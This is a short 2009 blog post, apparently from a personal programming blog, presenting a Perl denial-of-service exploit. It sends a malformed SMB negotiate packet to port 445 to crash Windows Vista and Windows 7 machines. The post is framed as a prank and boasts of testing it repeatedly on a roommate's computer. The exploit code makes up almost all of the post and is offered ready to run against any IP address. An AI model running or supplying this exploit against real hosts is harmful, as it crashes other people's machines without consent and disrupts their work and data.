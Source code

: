 ```yaml
---
aliases: ["/archives/1151"]
title: "Crash your roommate's windows computer WOOO!!!"
date: "2009-09-09T02:33:14-05:00"
tags: ["ioall", "perl", "security", "windows"]
guid: "http://blog.afoolishmanifesto.com/?p=1151"
---
```

Have you heard? You can crash Vista and Windows 7 really easily with the following super basic code! (Tested 3x on roomies computer)

    #!perl

    my $ip = shift or die 'Please pass the IP Address to crash as a parameter to this program';

    use IO::All;
    my $io = io("$ip:445");

    my $foo =
    "\x00\x00\x00\x90". # Begin SMB header: Session message
    "\xff\x53\x4d\x42". # Server Component: SMB
    "\x72\x00\x00\x00". # Negociate Protocol
    "\x00\x18\x53\xc8". # Operation 0x18 & sub 0xc853
    "\x00\x23".         # Process ID High: --> :) normal value should be "\x00\x00"
    "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xfe".
    "\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\x45\x54".
    "\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\x20\x31".
    "\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\x30\x00".
    "\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\x20\x57".
    "\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\x31\x61".
    "\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\x02\x4c".
    "\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\x20\x4c".
    "\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\x32\x2e".
    "\x30\x30\x32\x00";

    $io->print($foo);

See details [Here!](http://seclists.org/fulldisclosure/2009/Sep/0039.html)
